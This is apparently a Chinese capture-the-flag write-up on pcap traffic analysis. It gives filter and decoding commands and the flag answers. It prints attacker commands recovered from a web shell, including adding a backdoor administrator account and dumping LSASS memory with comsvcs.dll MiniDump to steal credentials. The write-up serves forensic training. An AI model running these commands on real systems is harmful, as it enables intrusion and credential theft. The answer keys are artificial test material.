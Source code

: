 根据`IP`搜索回显的`flag`值

> http.response.code\==200 and ip.dst==192.168.94.59		flag

> **flag{87b7cb79481f317bde90c116cf36084b}**

## 三,黑客找到的数据库密码 flag{xxxxxxxxxxxxxxxx}

![image-20240612115501914](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240612115501914.png)

搜索`database`

> http.response.code\==200 and ip.dst==192.168.94.59		database

> **flag{e667jUPvJjXHvEUv}**

# 流量特征分析-蚂蚁爱上树

`tshark -r mayishangshu.pcapng -Y 'http.request.method==POST' -Tjson > test.json`

`(for i in $(cat test.json |grep -v 'luaV9zZXQ'|grep -v '@base64'|grep -P '(?<="urlencoded-form.value": "..)[^"]*(?=")' -o);echo $i|base64 -d &&echo ) > text.txt`

## 一,管理员Admin账号的密码是什么？

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net group "domain admins" /domain&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net user admin Password1 /add&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators admin /add&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&net localgroup administrators&echo [S]&cd&echo [E]
```

> $ cat text.txt|grep -i 'Admin'

> **flag{Password1}**

## 二,LSASS.exe的程序进程ID是多少？

```shell
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\Temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
cd /d "C:\\phpStudy\\PHPTutorial\\WWW\\onlineshop"&rundll32.exe comsvcs.dll, MiniDump 852 C:\temp\OnlineShopBackup.zip full&echo [S]&cd&echo [E]
```

> $ cat text.txt|grep -i 'exe' 

> **flag{852}**

## 三,用户WIN101的密码是什么?

> **flag{admin#123}**



